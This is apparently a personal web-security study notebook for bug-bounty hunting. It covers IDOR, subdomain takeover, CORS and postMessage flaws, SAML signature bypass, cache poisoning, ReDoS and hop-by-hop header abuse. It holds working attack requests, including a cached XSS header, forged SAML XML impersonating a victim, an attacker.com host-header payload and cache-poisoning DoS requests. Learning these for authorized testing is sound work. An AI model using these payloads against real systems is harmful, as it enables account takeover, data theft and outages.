#### 1.sign /encrypt confusion:
#### there is 3 jwt flavor
##### 1- jwt in jws format 
##### 2- jwt in jwe format 
##### 3- nested jwt (jws in jwe pattern)


### 2. polyglot Attack 


- [ ] https://www.linkedin.com/embed/feed/update/urn:li:ugcPost:6966034357190823936?source=post_page-----caaf7ea58aa--------------------------------

# <font color="red">IDOR</font>

## <font color="red">Mechanisms</font>:

### IDOR is a missing access control. IDORs happen when users can access resources that do not belong to them by directly referencing the object ID, object number, or filename.
### IDORs can affect resources other than database objects. Another type of IDOR happens when applications reference a system file directly. For example, this request allows users to access a file they’ve uploaded: https:// example.com/uploads?file=user1234-01.jpeg.


## <font color="red">Prevention</font>:
### Applications can prevent IDORs in two ways. First, the application can check the user’s identity and permissions before granting access to a resource. For example, the application can check if the user’s session cookies corre-spond to the user_id whose messages the user is requesting.
### Second, the website can use a unique, unpredictable key or a hashed identifier to reference each user’s resources. Hashing refers to the one-way process that transforms a value into another string. Hashing IDs with a secure algorithm and a secret key makes it difficult for attackers to guess the hashed ID strings. If example.com structured its requests as follows, attackers would no longer be able to access other users’ messages, since there would be no way for an attacker to guess such a long, random user_key value:
	https:/ /example.com/messages?user_key=6MT9EalV9F7r9pns0mK1eDAEW

## <font color="red">Haunt</font>:

### <font color="red"> Step 1-</font>Create Two Accounts :
#### First, create two different accounts on the target website. If users can have different permissions on the site, create two accounts for each permission level. For example, create two admin accounts, two regular user accounts, two group member accounts, and two non-group-member accounts. This will help you test for access control issues among similar user accounts, as well as across users with different privileges.
#### Continuing the previous example, you could create two accounts on example.com: user 1235 and user 1236. One of the accounts would serve as your attacker account, used to carry out the IDOR attacks. The other would be the victim account used to observe the effects of the attack.

#### If the application doesn’t allow you to create so many accounts, you could reach out to the company and ask for more accounts. Companies will often grant you extra accounts if you explain that you’re participating in their bug bounty program. Also, if the application has paid memberships, ask the company for a premium account or pay for one yourself. Quite often, paying for these memberships is worth it, because you gain access to new features to test.

### <font color="red"> Step 2-</font> Discover Features:

#### Pay special attention to functionalities that return user information or modify user data. Note them for future reference.

	This endpoint lets you read user messages:
	https://example.com/messages?user_id=1236
	This one lets you read user files:
	https://example.com/uploads?file=user1236-01.jpeg
	This endpoint deletes user messages:
	POST /delete_message
	(POST request body)
	message_id=user1236-0111
	This one is for accessing group files:
	https://example.com/group_files?group=group3
	This one deletes a group:
	POST /delete_group
	(POST request body)
	group=group3
### <font color="red"> Step 3-</font> Capture Requests


### <font color="red"> Step 4-</font> Change the id :
	This endpoint lets you read user messages:
	https://example.com/messages?user_id=1236
	This one lets you read user files:
	https://example.com/uploads?file=user1236-01.jpeg
	This endpoint deletes user messages:
	POST /delete_message
	(POST request body)
	message_id=user1236-0111
	This one is for accessing group files:
	https://example.com/group_files?group=group3
	This endpoint deletes a group:
	POST /delete_group
	(POST request body)
	group=group3

## <font color="red">Bypassing IDOR protection</font> :

### <font color="red">1- </font>Encoded IDs and Hashed IDs:
####  don’t ignore encoded and hashed IDs. When faced with a seemingly random string, always suspect that it is encoded and try to decode it.

### <font color="red">2- </font>Leaked IDs:
#### It might also be possible that the application leaks IDs via another API endpoint or other public pages of the application, like the profile page of a user.
	GET /messages?conversation_id=O1SUR7GJ43HS93VAR8xxxx
### <font color="red">3-</font>Offer the application an ID , Even It doesn't Ask for it :
### In modern web applications, you’ll commonly encounter scenarios in which the application uses cookies instead of IDs to identify the resources a user can access.

#### For example, when you send the following GET request to an endpoint, the application will deduce your identity based on your session cookie, and then send you the messages associated with that user:
	GET /api_v1/messages
	Host: example.com
	Cookies: session=YOUR_SESSION_COOKIE
#### some applications will implement an alternative way of retrieving resources, using object IDs. They sometimes do this for the convenience of the developers, for backward compatibility, or just because developers forgot to remove a test feature.
#### For example let's say this req will display the messages 
	GET /api_v1/messages
#### Then maybe this request will show another users messages :
	GET /api_v1/messages?user_id=ANOTHER_USERS_ID

### <font color="red">4- </font> Keep an eye out for Blind IDORs:
#### Still, sometimes endpoints susceptible to IDOR don’t respond with the leaked information directly. They might lead the application to leak information elsewhere, instead: in export files, email, and maybe even in text alerts. For example, imagine that this endpoint on example.com allows users to email themselves a copy of a receipt:
	POST /get_receipt
	(POST request body)
	receipt_id=3001
#### his request will send a copy of receipt 3001 to the registered email ofthe current user. Now, what if you were to request a receipt that belongs to another user, receipt 2983?


#### <font color="red">note </font>that APIs like Representational State Transfer (REST) and GraphQL are often found to be vulnerable to IDOR too. 
	POST /get_receipt
	(POST request body)
	receipt_id=2983

### <font color="red">5- </font > Change the Request Method:
#### as simple way I can say just change POST to PUT , GET to DELETE , Or even another trick is to change a POST request to a GET request
### <font color="red">6- </font> Change the Request file type :
#### Switching the file type of the requested file sometimes leads the server to process the authorization differently. Applications might be flexible about how the user can identify information: they could allow users to either use IDs to reference a file or use the filename directly. But applications often fail to implement the same access controls for each method of reference.

#### For example, applications commonly store information in the JSON file type. Try adding the .json extension to the end of the request URL and see what happens. If this request is blocked by the server  
	GET /get_receipt?receipt_id=2983
#### to 
	GET /get_receipt?receipt_id=2983.json


## <font color="red">Escalating the Attack</font>:
#### The impact of an IDOR depends on the affected function, so to maximize the severity of your bugs, you should always look for IDORs in critical functionalities first. Both read-based IDORs (which leak information but do not alter the database) and write-based IDORs (which can alter the database in an unauthorized way) can be of high impact. In terms of the state-changing, write-based IDORs, look for IDORs in password reset, password change, and account recovery features, as these often have the highest business impact. Target these over, say, a feature that changes email subscription settings.

#### As for the non-state-changing (read-based) IDORs, look for functionalities that handle the sensitive information in the application. For example, look for functionalities that handle direct messages, personal information, and private content. Consider which application functionalities make use of this information and look for IDORs accordingly.
#### You can also combine IDORs with other vulnerabilities to increase their impact. For example, a write-based IDOR can be combined with self-XSS to form a stored XSS. An IDOR on a password reset endpoint combined with username enumeration can lead to a mass account takeover. Or a write IDOR on an admin account may even lead to RCE!
## <font color="red">Automate: </font>
#### the burp extension authorize https://github.com/Quitten/Autorize/ , scans fot authorize issues Auto Repeater (https://github.com/nccgroup/AutoRepeater/) and AuthMatrix (https://github.com/SecurityInnovation/AuthMatrix/) allow you to automate the process of switching out cookies, headers, and parameters.


# <font color="red">DOMAIN/SUBDOMAIN TAKEOVER </font>
#### A subdomain takeover vulnerability occurs when a subdomain points to a service, such as a web host or cloud service that has been removed or is no longer active.

#### This can arise for various reasons, such as the external service being decommissioned but the DNS record not being updated or removed, or the organization forgetting to renew its subscription for a specific service, leaving the subdomain pointing to an inactive service. These subdomains can sometimes be claimed or registered on the respective service.

### Automated subdomain takeover using subjack:
https://github.com/haccer/subjack
this tool can produce false positive so better to manually verify them 
#### command 
```
subjack -w subdomains.txt -t 100 -timeout 30 -o results.txt
```


# <font color="red">PARAM POLLUTION </font>


# <font color="red"> COMMAND INJ</font>


# <font color="red">Same-Origin Policy Vulns</font>


#### <font color="red">Note</font> SOP restricts how a script originating from one site can interact with the resources of a different site, and it’s critical in preventing many common web vulnerabilities.
## CORS:
#### In summary, if the server sets the Access-Control-Allow-Origin header to null or to arbitrary origins of the requesting page, it allows attackers to smuggle information offsite:

	Access-Control-Allow-Origin: null
	Access-Control-Allow-Origin: https://attacker.com
#### Another exploitable misconfiguration occurs when a site uses weak regexes to validate origins. For example, if the policy checks only if an ori- gin URL starts with www.example.com, the policy can be bypassed using an origin like www.example.com.attacker.com.


#### An interesting configuration that isn’t exploitable is setting the allowed origins to the wildcard (*). This isn’t exploitable because CORS doesn’t allow credentials, including cookies, authentication headers, or client-side certificates, to be sent with requests to these pages. Since credentials cannot be sent in requests to these pages, no private information can be accessed:

	Access-Control-Allow-Origin: *
### PostMessage():

#### Some sites work around SOP by using postMessage(). This method is a web API that uses JavaScript syntax. You can use it to send text-based messages to another window

	RECIPIENT_WINDOW.postMessage(MESSAGE_TO_SEND, TARGET_ORIGIN);
#### The receiving window would then handle the message by using an event handler that will be triggered when the receiving window receives a message:
	window.addEventListener("message",EVENT_HANDLER_FUNCTION);
#### Since using postMessage() requires the sender to obtain a reference to the receiver’s window, messages can be sent only between a window and its iframes  or pop-ups. That’s because only windows that open each other will have a way to reference each other. For example, a window can use window.open to refer to a new window it opened. Alternatively, it can use window.opener to reference the 
#### window that spawned the current window. It can use window.frames to reference embedded iframes, and window.parent to reference the parent window of the current iframe.

### JSONP :
#### JSON with Padding (JSONP) is another technique that works around the SOP. It allows the sender to send JSON data as JavaScript code. A page of a different origin can read the JSON data by processing the JavaScript.
#### <font color="red"> Note</font>: You can usually find out if a site uses JSONP by looking for script tags that include URLs with the terms jsonp or callback.

## <font color="red">Haunt </font>:

### <font color="red">Step 1- </font>: Determine if Relaxation techniques are used 
#### You can determine whether the target is using an SOP-relaxation technique by looking for the signatures of each SOP-relaxation technique. When you’re browsing a web application, open your proxy and look for any signs of crossorigin communication
For example, CORS sites will often return HTTP
responses that contain an Access-Control-Allow-Origin header. A site could be
using postMessage() if you inspect a page (for example, by right-clicking it in
Chrome and choosing Inspect, then navigating to Event Listeners) and find
a message event listener (Figure 19-1).
And a site could be using JSONP if you see a URL being loaded in a
_<script_> tag with a callback function:

	<script src="https://a.example.com/user_info?callback=parseinfo"></script>
	<script src="https://a.example.com/user_info?jsonp=parseinfo"></script>

### <font color="red">Step 2- </font>: find CORS misconfiguration :

#### if the site is using cors check whether the Access-Control-Allow-Origin response header is set to null.
	Origin: null
#### If not, send a request to the site with the origin header attacker.com, and see if the Access-Control-Allow-Origin in the response is set to attacker.com.
and ...

### <font color="red">Step 3- </font>: Find PostMessage bugs :


#### If the site is using postMessage, see if you can send or receive messages as an untrusted site. Create an HTML page with an iframe that frames the targeted page accepting messages. Try to send messages to that page that trigger a state-changing behavior. If the target cannot be framed, open it as a new window instead:

	var recipient_window = window.open("https://TARGET_URL", target_domain)
	recipient_window.postMessage("RANDOM MESSAGE", "*");
#### You can also create an HTML page that listens for events coming from the target page, and trigger the postMessage from the target site. See if you can receive sensitive data from the target page.

	var sender_window = window.open("https://TARGET_URL", target_domain)
	function parse_data(event) {
	// Run some code if we receive data from the target
	}
	window.addEventListener("message", parse_data);

### <font color="red">Step 4- </font>: Find Jsonp issues 
#### Finally, if the site is using JSONP, see if you can embed a script tag on your site and request the sensitive data wrapped in the JSONP payload:

	<script src="https://TARGET_URL?callback=parseinfo"></script>
### <font color="red">NOTE </font>When the target site does not rely on cookies for authentication, these SOP bypass misconfigurations might not be exploitable. For instance, when the site uses custom headers or secret request parameters to authenticate requests, you might need to find a way to forge those to exfiltrate sensitive data.

#### <font color="red">NOTE: </font> A good SOP-bypass report will include potential attack scenarios and indicate how attackers can exploit the vulnerability. For instance, what data can the attacker steal, and how easy would it be?

# <font color="red">Single-Sign-ON-Security issue </font>


## <font color="red">Mechanism</font>
#### Cookie sharing, SAML, and OAuth are the three most common ways of implementing SSO.

### Cookie sharing :

#### The implementation of SSO is quite easy if the services that need to share authentication are located under the same parent domain, as is the case with the web and mobile versions of Facebook at www.facebook.com and m.facebook .com. In these situations, applications can share cookies across subdomains.
#### <font color="red">subdomain  takeover </font>
...
### Security Assertion Markup Language :
#### Security Assertion Markup Language (SAML) is an XML-based markup language used to facilitate SSO on larger-scale applications.

## <font color="red"> Haunt for subdomain takeover </font>
#### <font color="red"> step 1</font> List the subdomain of target 

#### <font color="red"> step 2 </font> Find Unregistered Pages :
#### Even if you’ve found a dangling CNAME, not all third-party hosting  providers are vulnerable to takeovers. 
#### Some providers employ measures to verify the identity of users, to prevent people from registering pages associated with CNAME records. Currently, pages hosted on AWS, Bitbucket, and GitHub are vulnerable, whereas pages on Squarespace and Google Cloudare not. You can find a full list of which third-party sites are vulnerable on EdOverflow’s page on the topic (https://github.com/EdOverflow/can-i-take-over-xyz/). You can find a list of page signatures that indicate an unregis-tered page there too.

#### <font color="red">step 3 </font> Register the page 
#### Once you’ve determined that the page is vulnerable to takeovers, you should try to register it on the third-party site to confirm the vulnerability.
#### o register a page, go to the third-party site and claim the page as yours; the actual steps required vary by third-party provider. Host a harmless proof-of-concept page there to prove the subdomain takeover, such as a simple HTML page like this one:
	<html>Subdomain Takeover by Vickie Li.</html>
#### Make sure to keep the site registered until the company mitigates the vulnerability by either removing the dangling DNS CNAME or by reclaim-ing the page on the third-party service. If you don’t, a malicious attackermight be able to take over the subdomain while the bug report is being processed.


#### You might be able to steal cookies with the subdomain takeover if the site uses cookie-sharing SSO. Look for cookies that can be sent to multiple subdomains in the server’s responses. Shared cookies are sent with the Domain attribute specifying the parents of subdomains that can access the cookie:
	Set-Cookie: cookie=abc123; Domain=example.com; Secure; HttpOnly
#### Then, you can log in to the legitimate site, and visit your site in the same browser. You can monitor the logs of your newly registered site to determine whether your cookies were sent to it. 

#### Even if the subdomain takeover you’ve found cannot be used to steal shared-session cookies, it is still considered a vulnerability. Subdomain take- overs can be used to launch phishing attacks on a site’s users, so you should still report them to the organization!

## <font color="red"> Haunt for SAML injection</font>
#### <font color="red">Step 1-</font> Locate the SAML Response
#### First and foremost, you need to locate the SAML response. You can usu-ally do this by intercepting the requests going between the browser and the service provider using a proxy. The SAML response will be sent when the user’s browser is logging into a new session for that particular service provider.

#### <font color="red">Step 2-</font> Analyze the response fields
#### Once you’ve located the SAML response, you can analyze its content to see which fields the service provider uses for determining the identity of the user. Since the SAML response is used to relay authentication data to the service provider, it must contain fields that communicate that information.
#### For example, look for field names like username, email address, userID, and so on. Try tampering with these fields in your proxy. If the SAML message lacks a signature, or if the signature of the SAML response isn’t verified at all, tampering with the message is all you need to do to authenticate as someone else!

#### <font color="red">Step 3- </font> Bypass the signature

#### If the SAML message you’re tampering with does have a signature, you can try a few strategies to bypass it.
#### If the signatures are verified only when they exist, you could try remov-ing the signature value from the SAML response. Sometimes this is the only action required to bypass security checks. You can do this in two ways. First, you can empty the signature field:

	<saml:Signature>
	<saml:SignatureValue>
	</saml:SignatureValue>
	</saml:Signature>
	<saml:AttributeStatement>
	<saml:Attribute Name="username">
	<saml:AttributeValue>
	victim_user
	</saml:AttributeValue>
	</saml:Attribute>
	</saml:AttributeStatement>

#### Or you can try removing the field entirely:

	<saml:AttributeStatement>
	<saml:Attribute Name="username">
	<saml:AttributeValue>
	victim_user
	</saml:AttributeValue>
	</saml:Attribute>
	</saml:AttributeStatement>
#### If the SAML response signature used by the application is predictable, like the base64 example we discussed earlier, you can simply recalculate the signature and forge a valid SAML response.


### <font color="red">Haunt for 0Auth token</font> 
...
## <font color="red">Escalating the attack</font>
#### SSO bypass usually means that attackers can take over the accounts of oth-ers. Therefore, these vulnerabilities are of high severity before any escalation attempts. But you can escalate SSO bypass vulnerabilities by attempting to take over accounts with high privileges, such as admin accounts.


# <font color="red">Information disclosure</font>

## <font color="red">Haunt for information disclosure</font>:

### step 1- path traversal :
Start by trying a path traversal attack to read the server’s sensitive files.
Path traversal attacks are used to access files outside the web application’s
root folder. This process involves manipulating filepath variables the appli-
cation uses to reference files by adding the ../ characters to them. This
sequence refers to the parent directory of the current directory in Unix
systems, so by adding it to a filepath, you can often reach files outside the
web root.
### step 2- search the wayback machine :

Another way to find exposed files is by using the Wayback Machine. Introduced
in Chapter 5, the Wayback Machine is an online archive of what websites
looked like at various points in time. You can use it to find hidden and dep-
recated endpoints, as well as large numbers of current endpoints without
actively crawling the site, making it a good first look into what the applica-
tion might be exposing.
On the Wayback Machine’s site, simply search for a domain to see its
past versions. To search for a domain’s files, visit https://web.archive.org/web/*/
DOMAIN.
Add a /* to this URL to get the archived URLs related to the domain as
a list. For example, https://web.archive.org/web/*/example.com/* will return a list
of URLs related to example.com. You should see the URLs displayed on the
Wayback Machine web page

You can also search for backup files and configuration files by using
common file extensions like .conf 
and .env, or look for source
code, like JavaScript or PHP files, by using the file extensions .js and .php.

### step 3 - search paste dump sites : 
Pastebin has an API that allows users to search for public paste files by
using a keyword, email, or domain name. You can use this API to find sensi-
tive files that belong to a certain organization. Tools like PasteHunter or
pastebin-scraper can also automate the process. Pastebin-scraper (https://
github.com/streaak/pastebin-scraper/) uses the Pastebin API to help you search
for paste files. This tool is a shell script, so download it to a local directory
and run the following command to search for public paste files associated
with a particular keyword. The -g option indicates a general keyword search:

	./scrape.sh -g KEYWORD


# <font color="red">Cache Poisonign</font>

#### what is the difference between web cache poisoning and web cache deception ?
#### in Web cache poisoning, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.

#### in Web cache deception, the attacker causes the application to store some sensitive content belonging to another user in the cache , and the attacker then retrieves this content from the cache.

### <font color="red">Mechanism</font>
#### web cache poisoning vulnerabilities arise due to general flaws in the design of caches. Other times, the way in which a cache is implemented by a specific website can introduce unexpected quirks that can be exploited.

### <font color="red">Haunt:</font>

#### <font color="red">Identify and evaluate unkeyed inputs:</font>
#### Any web cache poisoning attack relies on manipulation of unkeyed inputs, such as headers. 
#### when web caches ignore unkeyed inputs when deciding whether to serve a cached response to the user. this behavior means you can inject poisoned payload .
#### you can identify  unkeyed inputs mannually by adding random inputs  and observing whether or not the response being effected 
#### This can be obvious, such as reflecting the input in the response directly, or triggering an entirely different response.

#### <font color="red">Tools</font>:
#### param miner 
#### <font color="red">Elicit a harmful response from the back-end server</font>
####  If an input is reflected in the response from the server without being properly sanitized, or is used to dynamically generate other data, then this is a potential entry point for web cache poisoning.

#### <font color="red">Get the response cached</font>
#### Manipulating inputs to elicit a harmful response is half the battle, but it doesn't achieve much unless you can cause the response to be cached, which can sometimes be tricky.

#### whether or not a response gets cached can depend on all kind of factors , such as the file extension, content type, route, status code ,  and response header . you will properly need to devote some time to simply playing around with requests on different pages and studying how the cache behaves. once you  work out how to get a response cached that contains your malicous input , you are ready to deliver the exploit to victims 


#### <font color="red">Discovery :</font>
##### check for Http headers : usually when a response was stored in the cache there will be a header indicating so , you can check which headers you should pay [attention](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/special-http-headers#cache-headers)
**Server Cache Headers**:

- `**X-Cache**` in the response may have the value `**miss**` when the request wasn't cached and the value `**hit**` when it is cached
    
    - Similar behaviour in the header `**Cf-Cache-Status**`
        
    
- `**Cache-Control**` indicates if a resource is being cached and when will be the next time the resource will be cached again: `Cache-Control: public, max-age=1800`
    
- `**Vary**` is often used in the response to **indicate additional headers** that are treated as **part of the cache key** even if they are normally unkeyed.
    
- `**Age**` defines the times in seconds the object has been in the proxy cache.
    
- `**Server-Timing: cdn-cache; desc=HIT**` also indicates that a resource was cached

##### check for caching error codes
If you are thinking that the response is being stored in a cache, you could try to **send requests with a bad header**, which should be responded to with a **status code 400**. Then try to access the request normally and if the **response is a 400 status code**, you know it's vulnerable (and you could even perform a DoS).
However, note that **sometimes these kinds of status codes aren't cached** so this test could not be reliable.

##### You could use [**Param Miner**](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943) to **brute-force parameters and headers** that may be **changing the response of the page**.

##### <font color="red">Elicit a harmful response from the back-end server</font>
With the parameter/header identified check how it is being **sanitised** and **where** is it **getting reflected** or affecting the response from the header. Can you abuse it anyway (perform an XSS or load a JS code controlled by you? perform a DoS?...)

The header `X-Cache` in the response could be very useful as it may have the value `**miss**` when the request wasn't cached and the value `**hit**` when it is cached. The header `**Cache-Control**` is also interesting to know if a resource is being cached and when will be the next time the resource will be cached again: `Cache-Control: public, max-age=1800` Another interesting header is `**Vary**`. This header is often used to **indicate additional headers** that are treated as **part of the cache key** even if they are normally unkeyed. Therefore, if the user knows the `User-Agent` of the victim he is targeting, he can poison the cache for the users using that specific `User-Agent`.

One more header related to the cache is `**Age**`. It defines the times in seconds the object has been in the proxy cache.

When caching a request, be **careful with the headers you use** because some of them could be **used unexpectedly** as **keyed** and the **victim will need to use that same header**. Always **test** a Cache Poisoning with **different browsers** to check if it's working

##### <font color="red">Example</font>
A header like `X-Forwarded-For` is being reflected in the response unsanitized. You can send a basic XSS payload and poison the cache so everybody that accesses the page will be XSSed:

Copy

```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

_Note that this will poison a request to_ `_/en?region=uk_` _not to_ `_/en_`

#### <font color="red">cache poisoning to DoS</font>
##### - **Http Header oversize** 
Send a request with a header size larger than the one supported by the web server but smaller than the one supported by
the cache server. The web server will respond with a 400 response which might be cached:

Copy

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```

##### - **HTTP Meta Character (HMC) & Unexpected values**
Send a header that contain some **harmfull meta characters** such as and . In order the attack to work you must bypass the cache first.

Copy

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```

A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:

Copy

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```

##### - **Unkeyed header**
Some websites will return an error status code if they **see some specific headers i**n the request like with the _X-Amz-Website-Location-Redirect: someThing_ header:

Copy

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```

##### - **HTTP Method Override Attack (HMO)**
f the server supports changing the HTTP method with headers such as `X-HTTP-Method-Override`, `X-HTTP-Method` or `X-Method-Override`. It's possible to request a valid page changing the method so the server doesn't supports it so a bad response gets cached:

Copy

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```

##### - **Unkeyed Port**
If port in the Host header is reflected in the response and not included in the cache key, it's possible to redirect it to an unused port:

Copy

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

##### - **Long Redirect DoS**

Like in the following example, x is not being cached, so an attacker could abuse the redirect response behaviour to make the redirect send a URL so big that it returns an error. Then, people trying to access the URL without the uncached x key will get the error response:

Copy

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

##### - **Host header case normalization**

The host header should be case insensitive but some websites expect it to be lowercase returning an error if it's not:

Copy

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
##### - **Path normalization**


Some pages will return error codes sending data URLencode in the path, however, the cache server with URLdecode the path and store the response for the URLdecoded path:

Copy

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```

##### - **Fat Get**

Some cache servers, like Cloudflare, or web servers, stops GET requests with a body, so this oucld be abused to cache a invalid response:

Copy

```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden 
Cache: hit
```


#### <font color="red">Using web cache poisoning to exploit cookie-handling vulnerabilities</font>

Cookies could also be reflected on the response of a page. If you can abuse it to cause an XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

Copy

```
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

#### <font color="red">Cache poisoning with path traversal to steal API key</font>
[**This writeup explains**](https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html) how it was possible to steal an OpenAI API key with an URL like `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` because anything matching `/share/*` will be cached without Cloudflare normalising the URL, which was done when the request reached the web server.

#### <font color="red">Using multiple headers to exploit web cache poisoning vulnerabilities</font>

Sometimes you will need to **exploit several unkeyed inputs** to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If** the **server** is **forwarding** all the **HTTP** requests **to HTTPS** and using the header `X-Forwarded-Scheme` as the domain name for the redirect. You can control where the page is pointed by the redirect.


```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

#### <font color="red">Exploited with limited Vary header</font >

if you found the `X-Host` header is being used **as domain name to load JS resources** but the `Vary` header in the response is indicating `User-Agent`. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent 

```
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

#### <font color="red">Fat GET</font>
Send a GET request with the request in the URL and in the body. If the web server uses the one from the body but the cache server caches the one from the URL, anyone accessing that URL will actually use the parameter from the body. Like the vuln James Kettle found at the Github website:


```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```

There it a portswigger lab about this: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)


#### <font color="red">Parameter Cloaking </font>
For example it's possible to separate **parameters** in ruby servers using the char **;** instead of **&**. This could be used to put unkeyed parameters values inside keyed ones and abuse them.

Portswigger lab: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)
#### <font color="red">Automated testing for Web Cache Poisoning</font>

The [Web Cache Vulnerability Scanner](https://github.com/Hackmanit/Web-Cache-Vulnerability-Scanner) can be used to automatically test for web cache poisoning. It supports many different techniques and is highly customizable.

### <font color="red">Prevention</font>:

#### The definitive way to prevent web cache poisoning would clearly be to disable caching altogether. While for many websites this might not be a realistic option, in other cases, it might be feasible. For example, if you only use caching because it was switched on by default when you adopted a CDN, it might be worth evaluating whether the default caching options really do reflect your needs.

#### Even if you do need to use cache , restricting it to purely static responses is also effective, provided you are sufficiently wary about what you class as "static".

#### take the following precautions when implementing caching:

- If you are considering excluding something from the cache key for performance reasons, rewrite the request instead.
-  Don't accept fat `GET` requests. Be aware that some third-party technologies may permit this by default.
-  Patch client-side vulnerabilities even if they seem unexploitable. Some of these vulnerabilities might actually be exploitable due to unpredictable quirks in your cache's behavior. It could be a matter of time before someone finds a quirk, whether it be cache-based or otherwise, that makes this vulnerability exploitable.


### <font color="red">to Read </font>
- [ ] https://portswigger.net/research/practical-web-cache-poisoning
- [ ] https://portswigger.net/research/web-cache-entanglement

# <font color="red">DOS</font> 
### Regex Dos(ReDos):
#### regular expressions are generally parsed really fast. It’s rare that a regular expression functions slowly enough to slow down a web application.

#### As said, regular expressions can be specifically crafted to run slowly. These are called malicious regexes (or sometimes evil regexes), and are a big risk when allowing users to provide their own regular expressions for use in other web forms or on a server.

#### Generally speaking, most malicious regex are formed using the plus “+” operator, which changes the regex into a “greedy” operation. Greedy regex test for one or more matches, rather than stopping at the first match found.

#### Malicious regex will result in backtracking whenever it finds a failure case. Consider the regex: /^((ab)*)+$/

#### Testing this regex with the input abab will actually run pretty quickly and not cause much in the way of issues.
#### Expanding the pattern outwards, ababababababab, will also run quite fast. If we modify this pattern to abababababababa with an extra “a”, suddenly the regex will evaluate slowly, potentially taking a few milliseconds to complete.


# <font color="red"> Abusing Hop-by-Hop requset headers</font>

## a hop by hop headers are headers designed to be processed and consumed by the proxy currently handling the request 

### Http/1.1 spec treats the following headers as hop-by-hop by default : Keep-Alive, `Transfer-Encoding` ,`TE`, `Connection`, `Trailer`, `Upgrade` , `Proxy-Authorization` , and `Proxy-Authentication` . 
Further to these defaults, a request [may also define a custom set of headers to be treated as hop-by-hop](https://tools.ietf.org/html/rfc2616#section-14.10) by adding them to the `Connection` header, like so:

	Connections: close, X-Foo, X-Bar

in this example we're asking the proxy to treat X-Foo and x-Bar as hop-by-hop, meaning we want a proxy to remove them from the request before passing the request on. 

## The theory on abusing hop-by-hop headers

#### The act of removing a header from a HTTP request is not necessarily going to cause issues, however being able to remove headers that were not in the original request but were added by either the frontend or another proxy in the chain could create unpredictable results. It's basically like turning off a switch - it could do nothing at all, or it could be catastophic.

#### The following graphic shows how abusing hop-by-hop headers may create issues, if the backend is expecting `X-Important-Header` and incorporates its presence in a logical decision:


## Testing for Hop-by-Hop header abuse

#### A quick and easy way of testing for it is the `Cookie` header , against an endpoint which requires authentication(assuming that the target system uses cookie auth). Take for instance the following request. 

	GET /api/me    HTTP/1.1
	Host: foo.bar
	Cookie: session=xxx
	Connection: close, Cookie

#### if we say that the `/api/me` supposed to return a HTTP 200 with user details when the request is authenticated, and session=xxx is a valid authenticated session value, then the above request may return something other than the anticipated response if the system is allowing hop-by-hop headers defined in the original request to modify which headers get sent to the backend.

##### wordlist for testing hopbyhop (https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers)


### some use cases of the hop by hop 

## Masking the originating IP address by hiding X-Forwarded-For :

#### When a frontend proxy accepts a user request, it may add the IP address of this user to the `X-Forwarded-For` (XFF) header, so infrastructure and apps in the backend can know the IP address of the requesting user.

#### However by instructing proxies this header is hop by hop we may end up removing this header from the request and the backend app will either never receive it, or it will receive an IP address value that is not of the original user , but of a server elsewhere n the chain

## fingerprinting services :

#### Using the technique to find forwarded hop-by-hop headers as outlined in the testing instructions above, one could potentially gather more information about a system based on the headers that, when removed from a request due to this technique, causes an error or an otherwise noticeable difference. Obviously, the more specific a header is to a particular technology or stack, the more telling having it trigger this sort of outcome may be - removing `X-Forwarded-Proto` causing an issue is perhaps less informative than if something like `X-BLUECOAT-VIA` does as well, for instance.

